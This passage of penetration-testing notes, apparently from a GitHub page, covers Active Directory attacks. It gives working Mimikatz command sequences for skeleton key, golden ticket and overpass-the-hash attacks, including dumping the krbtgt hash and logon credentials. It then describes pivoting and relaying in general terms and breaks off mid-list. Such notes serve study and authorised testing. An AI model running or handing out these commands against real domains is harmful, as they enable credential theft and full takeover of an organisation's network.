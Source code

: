 ### Skeleton Key Attack
In a skeleton key attack, an attacker gains unauthorized access to a Windows Active Directory (AD) domain controller and injects a "skeleton key" into the domain controller's memory. This "skeleton key" allows the attacker to authenticate as any user on the domain without needing their password (we use "mimikatz" as the passsword).

#### How?
- Firstly we have to enable the SeDebugPrivilege privilege for the current process: `privilege::debug`
- then: `misc::skeleton` and that's it!

### Golden Ticket Attack
A golden ticket allows to authenticate to any service with one single ticket. 

1. First we need to find the krbtgt service hash: `lsadump::dcsync /domain:example.com /user:krbtgt`.
2. Then we need to find the SID of a user account that will be granted the ticket: `whoami /user` on user's machine (Either an account I created or one I compromised).
3. Then: `kerberos::golden /domain:example.com /sid:{sid} /rc4:{krbtgt NTLM hash} /id:500 /user:{anything}` will grant the user this ticket where we use 500 as we are looking for administrative privileges.

### Overpass the Hash Attack
1. Firstly we need to find the user NTLM hash: `sekurlsa::logonpasswords`.
2. Then we need to execute this command: `sekurlsa::pth /user:Admisitrator /domain:example.com /ntlm:{user's NTLm}`.
3. Mimikatz opens a prompt then with user's privileges.

# Pivoting/Relaying
### Pivoting:
Pivoting involves using a compromised system, often referred to as a "pivot point" or "pivot host," to gain access to other systems or networks that are not directly accessible from the attacker's initial entry point. The pivot host serves as a bridge or intermediary for the attacker to launch further attacks against additional targets within the network.

Common techniques used in pivoting include:

- **Port Forwarding**: Setting up port forwarding or port redirection on the pivot host to relay traffic between the attacker and other systems within the network.
- **Proxying**: Configuring the pivot host to act as a proxy server, allowing the attacker to route traffic through it to reach other systems or services within the network.
- **Tunneling**: Establishing encrypted tunnels, such as SSH tunnels or VPN connections, from the pivot host to other systems or networks, providing a secure communication channel for the attacker.

### Relaying:
Relaying, also known as "relay attacks" or "credential relaying," involves intercepting authentication requests between two systems and relaying them to gain unauthorized access to resources or escalate privileges.

Common types of relay attacks include:
